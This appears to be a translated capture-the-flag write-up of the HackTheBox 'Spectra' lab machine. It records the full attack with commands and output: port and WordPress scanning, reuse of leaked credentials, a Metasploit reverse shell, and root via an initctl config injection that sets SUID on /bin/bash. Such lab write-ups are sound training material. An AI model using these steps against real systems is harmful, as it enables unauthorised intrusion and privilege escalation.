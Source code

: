 # 黑客盒子报道:光谱

> 原文：<https://infosecwriteups.com/hackthebox-writeup-spectra-83ecdeeae568?source=collection_archive---------2----------------------->

![](img/a370fa73feead037ddd9ebb05a2ce7f0.png)

这是一个由易到难的盒子，要求攻击者枚举一个网站，并找到一个带有隐藏凭据的文件来获得立足点。为了提升用户权限，攻击者需要查找包含凭据的文件。最后，为了获得 root 权限，攻击者必须利用二进制文件 */sbin/initctl。*

# 列举

我开始通过用 **NMAP** 执行快速扫描来枚举目标机器，以识别任何打开的端口:

```
nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.10.10.229PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3306/tcp open  mysql   syn-ack ttl 63
```

扫描发现三个端口打开(即端口 22、80 和 3306)。接下来，我使用 NMAP 来识别每个端口上运行的服务，并使用通用 NSE 脚本来查找我可以利用的任何常见漏洞:

```
nmap -sV -sC -Pn -v -p 22,80,3306 -oN nmap-report 10.10.10.229PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey: 
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
```

我可以看到有一个网站被托管在 80 端口，并决定开始寻找一个初步的立足点。

# HTTP —端口 80 分析

导航到[*http://10 . 10 . 10 . 229/*](http://10.10.10.229/)，找到如下网页:

![](img/ea1982d73038269e74cb34a6947dcc0a.png)

索引页

当我尝试页面上的链接时，我收到一个错误:

![](img/984402602ae884f8d4e2c711f68d6bd9.png)

错误页面

我需要将 **spectra.htb** 添加到我的 */etc/hosts* 文件中。添加后，我可以导航到网页上的链接。访问第一个链接时，我可以看到有一个 WordPress 站点正在运行:

![](img/36fa5d902716f40d39bda4140765d02a.png)

WordPress 网站

我决定使用 **wpscan** 为用户枚举网站，并找到一个名为 **administrator** 的用户:

```
wpscan --url [http://10.10.10.229/main](http://10.10.10.229/main) -e u[+] administrator
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

我还试图列举网站上任何易受攻击的插件，但这并没有透露任何有用的信息。

```
wpscan --url [http://10.10.10.229/main](http://10.10.10.229/main) -e ap[+] Enumerating All Plugins (via Passive Methods)[i] No plugins Found.
```

我决定继续前进，检查之前在索引页面上看到的 */testing* 链接。在测试目录中，我发现了一个名为 **wp-config.php.save 的文件。**这个文件看起来是空的，但是如果您查看页面源代码，您会看到它包含一个数据库的凭证:

```
define( ‘DB_NAME’, ‘dev’ );/** MySQL database username */
define( ‘DB_USER’, ‘devtest’ );/** MySQL database password */
define( ‘DB_PASSWORD’, ‘devteam01’ );
```

我试着用上面找到的凭证登录到 **MySQL** 数据库和**web-login.php**但是失败了。根据之前的 WordPress 扫描，我还知道发现了一个名为 **administrator** 的用户名。我尝试使用以下凭据登录 web-login.php 页面，并获得成功:

```
 administrator:devteam01
```

我使用了 **msfconsole** 来获得一个反向 shell(在 meterpreter shell 出现之前，可能需要重复几次):

```
msf5 > use exploit/unix/webapp/wp_admin_shell_upload
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts 10.10.10.229
rhosts => 10.10.10.229
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password devteam01
password => devteam01
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username administrator
username => devtest
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /main
targeturi => /main
msf5 exploit(unix/webapp/wp_admin_shell_upload) > exploitmeterpreter >
```

为了得到一个合适的 shell，我使用了 **shell** 命令，然后切换到 */tmp* 目录。然后，我使用 python 获得了一个稳定的 shell:

```
cd /tmp
python3 -c “import pty;pty.spawn(‘/bin/bash’)”bash-4.3$
```

我花了一些时间寻找提升权限的方法，最终，我在 */opt* 目录中找到了一个有趣的文件，名为 **autologin.conf.orig** :

```
# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
author        "[chromium-os-dev@chromium.org](mailto:chromium-os-dev@chromium.org)"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
  # Inject keys into the login prompt.
  #
  # For this to work, you must have already created an account on the device.
  # Otherwise, no login prompt appears at boot and the injected keys do the
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
```

浏览内容，脚本显示在*/mnt/stateful _ partition/etc/autolog in*中有一个密码文件。导航到这个位置，我发现了一个名为 **passwd** 的文件，其中包含一个密码:

```
bash-4.3$ cat passwdSummerHereWeCome!!
```

我尝试以一个目录在 */home* 的用户的身份 SSH 到目标机器，并且能够以用户 **katie 的身份登录。**然后我就可以获得用户标志了:

```
$ ssh katie@10.10.10.229-bash-4.3$ whoami
katie-bash-4.3$ cat user.txt
e89d27fe195e........
```

# 权限提升

我检查了用户 **katie** 可以使用 root 权限运行哪些命令，发现用户可以在没有密码的情况下以 root 身份运行二进制文件 */sbin/initctl* :

```
$ sudo -lUser katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

以下链接很好地解释了如何利用这一点来提升权限:

[](https://isharaabeythissa.medium.com/sudo-privileges-at-initctl-privileges-escalation-technique-ishara-abeythissa-c9d44ccadcb9) [## initctl 的 SUDO 权限|权限提升技术| Ishara Abeythissa

### initctl 允许系统管理员与 Upstart 链接和通信。能够管理用户作业。作为例子，如果…

isharaabeythissa.medium.com](https://isharaabeythissa.medium.com/sudo-privileges-at-initctl-privileges-escalation-technique-ishara-abeythissa-c9d44ccadcb9) 

我首先检查了位于 **/etc/init** 目录中的哪些配置文件可以注入恶意代码:

```
-rw-rw----  1 root developers   478 Jun 29  2020 test.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test1.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test10.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test2.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test3.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test4.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test5.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test6.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test7.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test8.conf
-rw-rw----  1 root developers   478 Jun 29  2020 test9.conf
```

浏览这些文件，我可以看到用户 katie 可以写入上面列出的文件，因为该用户属于 developers 组:

```
$ iduid=20156(katie)gid=20157(katie)groups=20157(katie),20158(developer)
```

我注入了一些代码，为所有用户设置了 SUID 权限 **/bin/bash** ，并允许我以 root 用户身份接管 bash shell:

```
echo "script
> 
>     chmod +s /bin/bash
> 
> end script" >> test.conf
```

然后，我用 root 权限启动了**测试**服务，并启动了 bash:

```
$ sudo /sbin/initctl start test
test start/running, process 4877# -p option lets bash keep the effective userid it is launched with, wheras without it, it will set the effective uid to the actual uid (your user).$ /bin/bash -p
bash-4.3#bash-4.3# cat /root/root.txt
d44519713b88.........
```

在得到一个根 shell 之后，我能够得到根标志，如上图所示。谢谢你一直读到最后，祝你黑客快乐😄！